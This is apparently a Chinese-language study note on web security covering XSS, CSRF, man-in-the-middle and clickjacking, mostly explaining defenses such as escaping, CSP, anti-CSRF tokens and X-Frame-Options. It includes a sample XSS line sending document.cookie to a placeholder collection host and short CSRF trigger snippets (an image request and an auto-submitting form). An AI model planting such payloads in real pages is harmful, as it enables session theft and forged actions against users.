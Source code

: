 ```yaml
---
title: Web安全
date: 2020-03-09
tags:
 - Web安全
categories:
 -  Browser
sidebar: auto
---
```


![](https://resource.limeili.co/abstract/abstract%20(51).jpg)
<!-- more -->

## 1.XSS
XSS (Cross-Site Scripting)，跨站脚本攻击,攻击者想尽一切办法将可执行代码注入到网页中，当用户访问被XSS脚本诸如的网页，XSS脚本就会被提取出来，用户浏览器就会解析这段XSS代码，也就是用户被攻击了  
* 弹窗警告
* 页面嵌套
* 页面重定向
* 弹框警告并重定向
* 访问恶意代码
* 收集用户cookie
### XSS分类
1. 反射型  
发起请求时XSS代码在URL中作为参数提交到服务器，服务器解析后XSS随响应内容一起传给浏览器，最后浏览器执行XSS代码  
恶意代码并没有保存在目标网站而是引诱用户点击一个恶意链接，发生在用户交互的地方  


2. 存储型  
恶意数据保存在数据库，所有用户浏览页面的时候都会被攻击，大部分在表单提交上发生，评论框  
`获取cookie`  
* 构建收集cookie服务器
* 构造XSS代码并植入到web服务器
* 等待肉鸡触发XSS代码并将cookie发送到黑客服务器
`<script>window.open('http://xxx.xxx/cookie_rec.php?cookie='+document.cookie')</script>`
* cookie利用

### 防御
1. 转义字符  
用户的输入永远不可信任的，最普遍的做法就是转义输入输出的内容，对于引号、尖括号、斜杠进行转义  
但是对于显示富文本来说，显然不能通过上面的办法来转义所有字符，因为这样会把需要的格式也过滤掉。对于这种情况，通常采用白名单过滤的办法，当然也可以通过黑名单过滤，但是考虑到需要过滤的标签和标签属性实在太多，更加推荐使用白名单的方式。
2. CSP   
CSP 本质上就是建立白名单，开发者明确告诉浏览器哪些外部资源可以加载和执行。我们只需要配置规则，如何拦截是由浏览器自己实现的。我们可以通过这种方式来尽量减少 XSS 攻击。  
* 设置 HTTP Header 中的 Content-Security-Policy 
* 设置 meta 标签的方式 `<meta http-equiv="Content-Security-Policy ">`

## 2.CSRF  
CSRF(Cross Site Request Forgery)，即跨站请求伪造，是一种常见的Web攻击，它利用用户已登录的身份，在用户毫不知情的情况下，以用户的名义完成非法操作,伪装来自收信人用户的请求来利用受信任的网站  
1. 受害者登录信任网站A，保留了cookie
2. 在受害者没有登出A网站的情况下，攻击者引诱受害者访问B网站
3. B网站向A网站发一个请求，a.com/action=xxx浏览器默认携带A的cookie
4. A收到请求验证确认误以为受害者自己请求的
5. 以受害者的名义执行了act=xxx  
`触发`  
```js
//GET 非常简单只需要一个http请求
<img src="..../action.php?username=1%money=100$submit=..." alt="嘻嘻">
```
```js
//POST 通常使用一个自动提交的表单
<form action="" method="post">
    <input type="hidden" value=>
<script> document.forms[0].submit()  
```
特点：  
* 通常发生在第三方
* 不能获取到cookie只能使用

### 防御
1.  Referer Check
HTTP Referer是header的一部分，当浏览器向web服务器发送请求时，一般会带上Referer信息告诉服务器是从哪个页面链接过来的，服务器籍此可以获得一些信息用于处理。可以通过检查请求的来源来防御CSRF攻击。正常请求的referer具有一定规律，如在提交表单的referer必定是在该页面发起的请求。所以通过检查http包头referer的值是不是这个页面，来判断是不是CSRF攻击。
但在某些情况下如从https跳转到http，浏览器处于安全考虑，不会发送referer，服务器就无法进行check了。若与该网站同域的其他网站有XSS漏洞，那么攻击者可以在其他网站注入恶意脚本，受害者进入了此类同域的网址，也会遭受攻击。出于以上原因，无法完全依赖Referer Check作为防御CSRF的主要手段。但是可以通过Referer Check来监控CSRF攻击的发生。
2. Anti CSRF Token  
目前比较完善的解决方案是加入Anti-CSRF-Token。即发送请求时在HTTP 请求中以参数的形式加入一个随机产生的token，并在服务器建立一个拦截器来验证这个token。服务器读取浏览器当前域cookie中这个token值，会进行校验该请求当中的token和cookie当中的token值是否都存在且相等，才认为这是合法的请求。否则认为这次请求是违法的，拒绝该次服务。
这种方法相比Referer检查要安全很多，token可以在用户登陆后产生并放于session或cookie中，然后在每次请求时服务器把token从session或cookie中拿出，与本次请求中的token 进行比对。由于token的存在，攻击者无法再构造出一个完整的URL实施CSRF攻击。但在处理多个页面共存问题时，当某个页面消耗掉token后，其他页面的表单保存的还是被消耗掉的那个token，其他页面的表单提交时会出现token错误。
3. 验证码  
应用程序和用户进行交互过程中，特别是账户交易这种核心步骤，强制用户输入验证码，才能完成最终请求。在通常情况下，验证码够很好地遏制CSRF攻击。但增加验证码降低了用户的体验，网站不能给所有的操作都加上验证码。所以只能将验证码作为一种辅助手段，在关键业务点设置验证码。

## 中间人攻击
使用https

## 点击劫持   
点击劫持是一种视觉欺骗的攻击手段。攻击者将需要攻击的网站通过 iframe 嵌套的方式嵌入自己的网页中，并将 iframe 设置为透明，在页面中透出一个按钮诱导用户点击。  
### 防御
1. X-FRAME-OPTIONSX
X-FRAME-OPTIONS是一个 HTTP 响应头，在现代浏览器有一个很好的支持。这个 HTTP 响应头 就是为了防御用 iframe 嵌套的点击劫持攻击。  
该响应头有三个值可选，分别是 

* DENY，表示页面不允许通过 iframe 的方式展示
* SAMEORIGIN，表示页面可以在相同域名下通过 iframe 的方式展示
* ALLOW-FROM，表示页面可以在指定来源的 iframe 中展示